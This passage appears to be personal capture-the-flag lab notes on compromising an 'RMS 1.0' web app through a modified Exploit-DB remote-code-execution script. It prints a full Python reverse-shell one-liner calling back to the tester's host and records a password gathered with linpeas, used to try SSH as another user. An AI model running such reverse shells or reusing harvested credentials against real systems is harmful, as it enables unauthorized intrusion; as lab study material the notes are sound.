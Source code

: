 Found RCE for RMS 1.0 on [exploitDB](https://www.exploit-db.com/exploits/47520)

Modified the file and fixed syntax errors. Once fixed,
![[Pasted image 20240821184625.png]]

![[Pasted image 20240821184646.png]]
![[Pasted image 20240821184654.png]]

Got a reverse shell using python as user `apache`
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.103.8",4201));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![[Pasted image 20240821190221.png]]

![[Pasted image 20240821190256.png]]
Using the password gathered by running linpeas.sh, tried SSHing as user `edward`

```bash
ssh zeno@10.10.182.201
```
`edward:FrobjoodAdkoonceanJa`

